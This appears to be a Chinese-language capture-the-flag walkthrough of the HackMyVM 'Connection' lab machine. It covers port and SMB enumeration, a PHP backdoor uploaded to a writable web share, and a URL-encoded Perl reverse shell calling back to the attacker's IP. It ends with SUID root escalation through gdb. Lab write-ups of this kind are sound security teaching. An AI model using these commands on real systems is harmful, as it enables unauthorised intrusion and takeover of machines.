 ```yaml
---
{"dg-publish":true,"tags":["HMV","SUID提权","SMB"],"难度":"⭐️⭐️","作者":"whitecr0wz","permalink":"/24-渗透/HMV/4.Connection/","dgPassFrontmatter":true,"noteIcon":"","created":"2024-11-22T19:13:18.845+08:00","updated":"2024-11-25T01:04:53.196+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/4.Connection#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/4.Connection#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/4.Connection#3. SMB服务\|3. SMB服务]]
- [[24-渗透/HMV/4.Connection#4. webshell\|4. webshell]]
- [[24-渗透/HMV/4.Connection#5. SUID提权\|5. SUID提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Connection
```



作者：[ whitecr0wz](https://hackmyvm.eu/profile/?user=whitecr0wz)


```
难度：⭐️⭐️
```


```
知识点：SUID提权-gdb 、SMB服务
```
## 2. 信息收集

端口扫描

```Bash
Nmap scan report for 192.168.9.6
Host is up (0.00016s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:46:CA:97 (Oracle VirtualBox virtual NIC)
```
目录扫描

```Bash
gobuster dir -u http://192.168.9.6/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,zip,css,txt
```
没有啥东西

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.001.png)

## 3. SMB服务

扫描端口发现开启了139与445端口，这是SMB服务的特征 

利用enum4linux 工具对目标主机的smb服务进行扫描

```Bash
enum4linux -a -o 192.168.9.6
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.002.png)

可以发现share文件夹可以读取

smbclient连接上去

```Bash
┌──(root㉿kali)-[/home/kali]
└─# smbclient //192.168.9.6/share
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 23 09:48:39 2020
  ..                                  D        0  Wed Sep 23 09:48:39 2020
  html                                D        0  Wed Sep 23 10:20:00 2020

                7158264 blocks of size 1024. 5295652 blocks available
smb: \> allinfo html
altname: html
create\_time:    Wed Sep 23 10:20:00 AM 2020 CST
access\_time:    Sun Nov  3 01:51:49 PM 2024 CST
write\_time:     Wed Sep 23 10:20:00 AM 2020 CST
change\_time:    Wed Sep 23 10:20:00 AM 2020 CST
attributes: D (10)
```
发现里面有一个这个html目录，进去后发现就是网站的根目录

而且目录的属性是10 

即8+2 

8：这是一个目录

2：这个文件夹是隐藏的

```Bash
第 0 位（1）：表示 只读（Read-only）。
第 1 位（2）：表示 隐藏（Hidden）。
第 2 位（4）：表示 系统文件（System）。
第 3 位（8）：表示 目录（Directory）。
第 4 位（16）：表示 存档（Archive）。
```
这里可以说明html文件是可以写入的

直接传一个后门

```Bash
cd html
put 1.php
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.003.png)

## 4. webshell

发现传的eval马好像不太好弹shell
重新传了一个系统马

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.004.png)

弹shell

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.005.png)

```Bash
cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.9.3%22%3B%24p%3D1122%3Bsocket%28S%2CPF\_INET%2CSOCK\_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr\_in%28%24p%2Cinet\_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```
## 5. SUID提权

```Bash
(remote) www-data@connection:/var/www/html$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/su
/usr/bin/passwd
/usr/bin/gdb
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/mount
/usr/bin/gpasswd
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.006.png)

```Bash
cd /usr/bin
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/4.Connection.007.png)


